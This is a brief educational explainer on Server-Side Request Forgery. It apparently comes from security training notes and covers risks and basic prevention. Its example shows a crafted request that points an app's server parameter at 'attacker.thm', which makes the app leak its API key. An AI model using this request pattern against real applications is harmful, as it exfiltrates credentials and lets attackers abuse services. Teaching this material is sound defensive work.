 ### Server-Side Request Forgery (SSRF)

**Definition:**  
SSRF is a type of vulnerability that allows an attacker to manipulate a web application into sending requests on their behalf to any destination. This can happen when the application interacts with external services.

**Example:**  
Imagine a web application that sends SMS notifications via an external API. The application requires an API key for authentication. If the app allows users to specify the API server in the request, an attacker could change the server parameter to a server they control.

- **Request from Attacker:**  
  ```
  https://www.mysite.com/sms?server=attacker.thm&msg=ABC
  ```

- **Resulting Request Sent by the App:**  
  ```
  https://attacker.thm/api/send?msg=ABC
  ```

In this case, the attacker receives the API key and can send SMS messages at the application's expense.

**Potential Risks of SSRF:**
1. **Network Enumeration:** Discover internal IP addresses and services.
2. **Access to Restricted Services:** Exploit trust relationships between servers to access protected services.
3. **Remote Code Execution (RCE):** Interact with non-HTTP services to execute code remotely.

**Conclusion:**  
SSRF can have serious implications, allowing attackers to exploit trust relationships and gain access to sensitive information or services. Always validate and sanitize user inputs to prevent SSRF vulnerabilities.